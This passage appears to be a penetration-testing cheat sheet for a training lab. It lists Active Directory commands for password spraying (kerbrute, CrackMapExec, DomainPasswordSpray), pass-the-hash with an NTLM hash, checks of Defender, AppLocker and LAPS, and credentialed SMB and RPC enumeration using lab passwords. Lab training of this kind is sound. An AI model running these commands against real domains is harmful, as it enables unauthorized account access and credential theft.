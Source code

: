 | `kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1` | Uses `kerbrute` and a list of users (`valid_users.txt`) to perform a password spraying attack against a target Windows domain from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 \| grep +` | Uses `CrackMapExec` and a list of users (`valid_users.txt`) to perform a password spraying attack against a target Windows domain from a Linux-based host. It also filters out logon failures using `grep`. |
| ` sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123` | Uses `CrackMapExec` to validate a set of credentials from a Linux-based host. |
| `sudo crackmapexec smb --local-auth 172.16.5.0/24 -u administrator -H 88ad09182de639ccc6579eb0849751cf \| grep +` | Uses `CrackMapExec` and the -`-local-auth` flag to ensure only one login attempt is performed from a Linux-based host. This is to ensure accounts are not locked out by enforced password policies. It also filters out logon failures using `grep`. |
| `Import-Module .\DomainPasswordSpray.ps1`                    | Used to import the PowerShell-based tool `DomainPasswordSpray.ps1` from a Windows-based host. |
| `Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue` | Performs a password spraying attack and outputs (-OutFile) the results to a specified file (`spray_success`) from a Windows-based host. |

# Enumerating Security Controls

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-MpComputerStatus`                                       | PowerShell cmd-let used to check the status of `Windows Defender Anti-Virus` from a Windows-based host. |
| `Get-AppLockerPolicy -Effective \| select -ExpandProperty RuleCollections` | PowerShell cmd-let used to view `AppLocker` policies from a Windows-based host. |
| `$ExecutionContext.SessionState.LanguageMode`                | PowerShell script used to discover the `PowerShell Language Mode` being used on a Windows-based host. Performed from a Windows-based host. |
| `Find-LAPSDelegatedGroups`                                   | A `LAPSToolkit` function that discovers `LAPS Delegated Groups` from a Windows-based host. |
| `Find-AdmPwdExtendedRights`                                  | A `LAPSTookit` function that checks the rights on each computer with LAPS enabled for any groups with read access and users with `All Extended Rights`. Performed from a Windows-based host. |
| `Get-LAPSComputers`                                          | A `LAPSToolkit` function that searches for computers that have LAPS enabled, discover password expiration and can discover randomized passwords. Performed from a Windows-based host. |



# Credentialed Enumeration 



| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `xfreerdp /u:forend@inlanefreight.local /p:Klmcargo2 /v:172.16.5.25` | Connects to a Windows target using valid credentials. Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users` | Authenticates with a Windows target over `smb` using valid credentials and attempts to discover more users (`--users`) in a target Windows domain. Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups` | Authenticates with a Windows target over `smb` using valid credentials and attempts to discover groups (`--groups`) in a target Windows domain. Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.125 -u forend -p Klmcargo2 --loggedon-users` | Authenticates with a Windows target over `smb` using valid credentials and attempts to check for a list of logged on users (`--loggedon-users`) on the target Windows host. Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares` | Authenticates with a Windows target over `smb` using valid credentials and attempts to discover any smb shares (`--shares`). Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share Dev-share` | Authenticates with a Windows target over `smb` using valid credentials and utilizes the CrackMapExec module (`-M`) `spider_plus` to go through each readable share (`Dev-share`) and list all readable files.  The results are outputted in `JSON`. Performed from a Linux-based host. |
| `smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5` | Enumerates the target Windows domain using valid credentials and lists shares & permissions available on each within the context of the valid credentials used and the target Windows host (`-H`). Performed from a Linux-based host. |
| `smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R SYSVOL --dir-only` | Enumerates the target Windows domain using valid credentials and performs a recursive listing (`-R`) of the specified share (`SYSVOL`) and only outputs a list of directories (`--dir-only`) in the share. Performed from a Linux-based host. |
| ` rpcclient $> queryuser 0x457`                              | Enumerates a target user account in a Windows domain using its relative identifier (`0x457`). Performed from a Linux-based host. |
| `rpcclient $> enumdomusers`                                  | Discovers user accounts in a target Windows domain and their associated relative identifiers (`rid`). Performed from a Linux-based host. |